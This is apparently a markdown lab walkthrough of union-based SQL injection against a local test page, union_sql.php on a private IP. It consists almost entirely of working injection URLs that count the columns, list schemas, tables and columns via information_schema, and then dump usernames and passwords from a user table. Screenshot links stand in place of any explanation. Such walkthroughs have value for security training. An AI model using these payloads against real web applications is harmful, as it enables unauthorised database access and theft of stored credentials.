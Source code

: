 ![image-20250916085729888](assets/image-20250916085729888.png)

```
http://10.3.4.67/union_sql.php?id=1 order by 2-- 
```

![image-20250916085748812](assets/image-20250916085748812.png)

```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(SCHEMA_NAME) from information_schema.schemata-- 
```

![image-20250916085641996](assets/image-20250916085641996.png)

```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(TABLE_NAME) from information_schema.TABLES where table_schema = 'user_db'-- 
```

![image-20250916090153569](assets/image-20250916090153569.png)

```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(COLUMN_NAME) from information_schema.columns where table_name = 'user_info'-- 
```

![image-20250916090335148](assets/image-20250916090335148.png)

```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(username) from user_db.user_info -- 
```

![image-20250916090459580](assets/image-20250916090459580.png)

```
http://10.3.4.67/union_sql.php?id=-1 union select group_concat(password) from user_db.user_info -- 
```
